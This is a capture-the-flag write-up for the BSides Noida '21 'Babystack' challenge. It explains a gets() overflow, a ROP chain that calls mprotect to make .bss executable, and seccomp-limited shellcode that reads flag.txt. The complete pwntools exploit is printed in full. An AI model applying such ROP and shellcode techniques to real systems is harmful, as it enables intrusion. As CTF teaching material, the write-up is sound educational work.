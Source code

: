 # Babystack

Okay so this was a ROP based challenge in BSides Noida '21 CTF. At the time of the CTF, I wasn't really able to solve this challenge. However after trying again, I did get a solution.

Before we dive right in, let's check some preliminary conditions and permissions.
```babystack.out: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=07e1b7ffbb8cbb81b3b714c0187e30dd5f6e2a0d, for GNU/Linux 3.2.0, not stripped```
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
As we can see, it is a 64 bit, statically linked file, with canary and nx enabled. Therefore, to inject a shellcode, we will need an executable stack which isn't possible at the current moment. Let's dive right in to know more.

```int __cdecl main(int argc, const char **argv, const char **envp)
{
  u32 inp[16]; // [rsp+0h] [rbp-40h] BYREF

  apply_seccomp(argc, argv, envp);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  gets(inp);
  return 0;
}
```

From the above decompiled binary, we see the obvious vulnerability "gets" and use of "seccomp" which prevents us from using syscalls other than read, write and open. 
Upon analyzing the binary further we can find mprotect function which basically changes perissions of the .bss section. This would ajorly help us in writing a shellcode as the .bss section already has permissions for read and write. Making it executable would help us injecting a shellcode. 
```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b9000         0x004bc000         rw-p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out          <-- .bss section with read and write permissions only. 
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

As we can see, using mprotect(), if we change the permissions of the .bss section to "rwx", we can get our shellcode executed.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  
0x004b9000         0x004bc000         rwxp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out          <--- .bss section with read, write and executable permissions.
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

To do that, we need to note a few things:
- buffer size is 0x40.
- Use an address in .bss section with "rw" permissions and make it executable as well.
- in order to write the shellcode in .bss section, we need to make use of gets() in .bss section.

Firstly, in order to change the permissions, we may do the following:
```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi
```
This will make sure the .bss section has executable permissions. 

Since "seccomp" is used, we can only make use of read, write and open syscalls. Therefore we may write our shellcode as:
```
shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)
```

Now all we need to do is send the payload and give the shell!

## Exploit:
Here's the complete exploit:

```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi

shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)

sleep(0.1)
p.sendline(payload)
sleep(0.1)
p.sendline(asm(shell))

p.interactive()
```

## Flag:
```BSNoida{y0u_4r3_4_b4by_pwn3r_n0w_C7A5}```

